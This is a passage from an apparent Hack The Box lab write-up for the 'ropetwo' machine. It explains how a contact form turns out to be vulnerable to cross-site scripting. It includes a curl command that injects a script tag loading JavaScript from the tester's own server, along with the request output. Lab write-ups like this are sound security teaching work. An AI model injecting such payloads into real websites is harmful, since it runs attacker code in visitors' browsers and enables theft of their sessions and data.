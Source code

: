 ![A screenshot of the contact us form](./contact-us.png "This works more often than you would believe")

Unfortunately, this didn't seem to work this time. The form also doesn't appear to be vulnerable to [SQL injection](https://xkcd.com/327/), but it does seem to be vulnerable to a basic [Cross-Site Scripting vulnerability](https://en.wikipedia.org/wiki/Cross-site_scripting) - submitting the HTML for an `<image>` or `<script>` tag seems to cause a visitor, somewhere, to request that URL. If we start our own server, we can see an incoming request triggered from our POST.

```console?comments=true
kali@kali:~/htb/ropetwo$ curl -v -X POST --data 'name=test&subject=test&content=<script src="http://10.10.16.173:8000/test.js"></script>' http://ropetwo.htb:8000/contact
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.10.196:8000...
* Connected to ropetwo.htb (10.10.10.196) port 8000 (#0)
> POST /contact HTTP/1.1
> Host: ropetwo.htb:8000
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 87
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 87 out of 87 bytes
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 4
< Server: Werkzeug/0.14.1 Python/3.7.3
```